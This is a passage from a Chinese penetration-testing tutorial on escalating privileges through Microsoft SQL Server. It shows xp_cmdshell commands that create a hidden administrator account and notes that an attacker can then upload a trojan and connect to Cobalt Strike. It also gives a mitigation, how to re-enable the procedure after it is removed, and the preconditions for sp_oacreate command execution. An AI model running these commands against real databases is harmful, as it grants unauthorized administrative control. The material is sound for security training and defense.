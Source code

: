 ```php
exec master..xp_cmdshell "net user test12 123.com /add"
exec master..xp_cmdshell "net localgroup administrators test12 /add"
exec master..xp_cmdshell "net user test12"
```

![2s4Jkn.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-662551d6a0c7765cf56db0ca13fffbdac25ec074.png)

可以看到用户添加成功

![2s4QOg.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2de17b3e1cfa48b3d689a7c5443a24d77329add1.png)

后续可以登陆用户上传木马，上线CS，详情见本文**第五部分：二级内网MSSQL渗透|上线CS**

#### 4）保护措施

将该`xp_cmdshell`存储过程删除即可

```php
exec sp_dropextendedproc 'xp_cmdshell' 
```

被删除后，重新添加`xp_cmdshell`存储过程语句

```text
EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int;
sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll';
```

若想彻底删除`xp_cmdshell`扩展存储过程，建议在C盘里直接搜索`xplog70.dll`，然后删除`xp_cmdshell`。

### 2、使用sp\_oacreate进行提权|无回显

#### 1）sp\_oacreate简介

> 调用ws cript.shel执行命令

`sp_oacreate`系统存储过程可以用于对文件删除、复制、移动等操作，还可以配合`sp_oamethod`系统存储过程调用系统`ws cript.shell`来执行系统命令。`sp_oacreate`和`sp_oamethod`两个过程分别用来创建和执行脚本语言。

系统管理员使用`sp_configure`启用`sp_oacreate`和`sp_oamethod`系统存储过程对OLE自动化过程的访问（OLE Automation Procedures）

在效果方面，`sp_oacreate、sp_oamethod`两个过程和`xp_cmdshell`过程功能类似，因此可以替换使用！

**利用条件：**

1. 已获取到sqlserver sysadmin权限用户的账号与密码且未降权（如2019版本sa用户权限为mssqlserver，已降权）
2. sqlserver允许远程连接
3. OLE Automation Procedures选项开启

#### 2）sp\_oacreate使用

##### Ⅰ 查看sp\_oacreate状态

```php
select count(*) from master.dbo.sysO bjects where xtype='x' and name='SP_OACREATE';
```

返回1表示存在`sp_oacreate`系统存储过程

